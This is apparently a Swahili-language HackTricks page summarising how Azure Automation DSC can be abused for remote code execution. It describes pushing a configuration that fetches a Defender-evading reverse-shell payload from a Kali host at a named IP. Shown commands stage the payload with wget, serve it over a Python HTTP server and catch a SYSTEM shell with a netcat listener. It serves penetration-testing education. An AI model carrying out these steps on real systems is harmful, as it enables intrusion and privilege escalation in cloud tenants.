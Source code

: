 # Az - Hali ya Utekelezaji wa RCE

{% hint style="success" %}
Jifunze na zoezi la Udukuzi wa AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Mafunzo ya HackTricks AWS Timu Nyekundu Mtaalam (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze na zoezi la Udukuzi wa GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Mafunzo ya HackTricks GCP Timu Nyekundu Mtaalam (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>unga mkono HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}

**Angalia chapisho kamili hapa: [https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)**

### Muhtasari wa Maandalizi na Hatua za Miundombinu ya Seva ya Mbali (C2)

#### Muhtasari
Mchakato unahusisha kuweka miundombinu ya seva ya mbali kuhifadhi mzigo uliobadilishwa wa Nishang `Invoke-PowerShellTcp.ps1`, unaoitwa `RevPS.ps1`, ulioundwa kuvuka Windows Defender. Mzigo huo unahudumiwa kutoka kwa mashine ya Kali Linux yenye IP `40.84.7.74` kwa kutumia seva rahisi ya HTTP ya Python. Operesheni inatekelezwa kupitia hatua kadhaa:

#### Hatua 1 — Unda Faili
- **Faili Zinazohitajika:** Inahitajika hati mbili za PowerShell:
1. `reverse_shell_config.ps1`: Faili ya Hali ya Matarajio ya Ustawishaji (DSC) ambayo inapata na kutekeleza mzigo. Inapatikana kwenye [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1).
2. `push_reverse_shell_config.ps1`: Hati ya kuchapisha usanidi kwenye VM, inapatikana kwenye [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1).
- **Ubadilishaji:** Vigezo na marameteri katika faili hizi lazima zibadilishwe kulingana na mazingira maalum ya mtumiaji, ikiwa ni pamoja na majina ya rasilimali, njia za faili, na vitambulisho vya seva/mzigo.

#### Hatua 2 — Pakia Faili ya Usanidi kwenye Zip
- `reverse_shell_config.ps1` inafungwa katika faili ya `.zip`, ikifanya iwe tayari kwa uhamisho kwenye Akaunti ya Uhifadhi ya Azure.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Hatua ya 3 — Weka Muktadha wa Uhifadhi & Pakia
- Faili iliyozipwa ya usanidi inapakiwa kwenye chombo kilichopangwa mapema cha Uhifadhi wa Azure, azure-pentest, kwa kutumia amri ya Set-AzStorageBlobContent ya Azure.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Hatua ya 4 — Andaa Kali Box
- Seva ya Kali inapakua mzigo wa RevPS.ps1 kutoka kwenye hazina ya GitHub.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
- Skripti imehaririwa ili kufafanua lengo la VM ya Windows na bandari kwa reverse shell.

#### Hatua 5 — Chapisha Faili ya Mipangilio
- Faili ya mipangilio inatekelezwa, ikisababisha skripti ya reverse-shell kuwekwa kwenye eneo lililoelezwa kwenye VM ya Windows.

#### Hatua 6 — Mwenyeji wa Mzigo na Kuweka Msikilizaji
- Python SimpleHTTPServer inaanzishwa kuhifadhi mzigo, pamoja na msikilizaji wa Netcat kukamata miunganisho inayoingia.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
- Kazi iliyopangwa inatekeleza mzigo, ikipata mamlaka ya kiwango cha SYSTEM.

#### Hitimisho

Utekelezaji mafanikio wa mchakato huu hufungua uwezekano mwingi kwa hatua zaidi, kama vile kuvuja kwa siri za uthibitisho au kupanua shambulio kwa VM nyingi. Mwongozo unahimiza ujifunzaji endelevu na ubunifu katika uwanja wa Azure Automation DSC.

{% hint style="success" %}
Jifunze & zoezi Udukuzi wa AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Mafunzo ya HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze & zoezi Udukuzi wa GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Mafunzo ya HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa michango**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
